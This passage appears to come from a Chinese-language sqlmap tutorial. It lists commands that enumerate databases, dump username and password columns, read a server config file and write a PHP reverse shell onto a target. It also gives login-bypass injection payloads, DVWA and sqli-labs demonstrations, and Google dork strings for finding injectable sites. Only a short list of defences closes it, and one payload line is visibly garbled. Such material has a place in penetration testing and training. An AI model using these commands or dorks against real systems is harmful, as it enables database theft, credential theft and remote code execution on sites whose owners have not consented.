4、判断列名(columns)：sqlmap -u "http://www.test.php?id=1"-D 数据库名 -T 表名 --column
5、获取字段: sqlmap -u "http://www.test.php?id=1" -D 数据库名 -T 表名 -C 列名 --dump
```

### 进阶使用

```sql
# -m对文件中的url
python sqlmap.py -m .\url.txt --dbs --batch --risk 2 --level 3 --random-agent -p "id" --proxy=http://127.0.0.1:7890 --output-dir result
python sqlmap.py -m .\url.txt --dbs --batch --force-ssl --risk 2 --level 3 --random-agent -p "id" --proxy=http://127.0.0.1:7890 --output-dir result


# -r对get/post文件
python sqlmap.py -r "c:\sql.txt" -p "id" –dbms mysql –file-read="/var/www/html/config.php"
sqlmap -r sql.txt --batch --random-agent --level=5 --risk=3 --batch -D ch16 -T users --dump

 
# -u对单一指定url跑get/post
python sqlmap.py -u "https://www.vuln.cn/post.php?id=1" --force-ssl  --proxy "http://127.0.0.1:7890" --batch --dbs -v 3
python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --dbms mysql -D test -T admin -C "username,password" --dump
sqlmap -u 'http://10.10.10.100/login.php' --data="email=admin' or '1'#&pass=admin' or '1'#&submit=Login&submitted=TRUE" --level=5 --risk=3 --batch -D ch16 -T users --dump
sqlmap -u 'http://10.10.10.100/login.php' --data="email=admin' or '1 '1pss=admin’or '1'n6submitaloginbsubmitted-TRLE" --level=5 --risk=3 --batch --file-write='php-reverse-shell.php' --file-dest='/var/www/php-reverse-shell.php'
```

### 案例演示

【sqlmap跑post的数据（含cookie）】

#### 案例一：使用Sqlmap获取DVWA数据

dvwa-sql-Low

1、使用BP自带浏览器进行抓包(主要是抓取想要登入的cookie信息)



2、将数据包保存成文件，放入sqlmap目录下





3、加上-r参数带上数据包（如果数据包当中没有cookie信息的话，跑sqlmap时会重定向到登入页面--报浏览器302状态码）



结果就出来了



#### 案例二：利用unmagicquotes脚本绕过magicquotes

 python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-33/?id=1" --batch --tamper=unmagicquotes



 python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-33/?id=1" --batch --tamper=unmagicquotes --current-db



## 漏洞挖掘

```
inurl:view.php?id=
inurl:website.php?id=
inurl:hosting_info.php?id=
inurl:gallery.php?id=
inurl:rub.php?idr=
inurl:view_faq.php?id=
inurl:artikelinfo.php?id=
inurl:detail.php?ID=
inurl:index.php?=
```

## 如何防护sql注入

①过滤(含正则表达式过滤)

②编码

③预编译

④PDO

⑤使用相应的杀软和WAF(软硬件)
